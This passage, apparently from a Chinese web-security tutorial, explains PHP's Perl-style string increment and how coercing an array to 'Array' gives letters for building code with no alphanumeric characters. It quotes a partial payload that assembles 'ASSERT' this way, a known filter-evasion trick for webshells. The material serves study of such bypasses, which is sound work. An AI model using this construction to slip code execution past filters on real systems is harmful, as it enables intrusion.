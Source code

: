 ![img](assets/202304161656233.png)

### 3、自增

在处理字符变量的算数运算时，PHP沿袭了Perl的习惯，而不是C语言的。在C语言中，它递增的是ASCII值,a = 'Z'; a++; 将把 a 变成 '['（'Z' 的 ASCII 值是 90，'[' 的 ASCII 值是 91），而在Perl中， $a = 'Z'; $a++; 将把 $a 变成'AA'。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增或递减其他字符变量则无效，原字符串没有变化。

也就是说，只要我们获得了小写字母a，就可以通过自增获得所有小写字母，当我们获得大写字母A，就可以获得所有大写字母了

正好，数组(Array)中就正好有大写字母A和小写字母a，而在PHP中，如果强制连接数组和字符串的话，数组就会被强制转换成字符串，它的值就为Array，那取它的第一个子母，就拿到A了，那有了a和A，相当于我们就可以拿到a-z和A-Z中的所有字母了

![img](assets/202304161656273.png)

这里我就直接给出p神的构造结果了，构造出来很长，而且我感觉也不是特别实用：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
```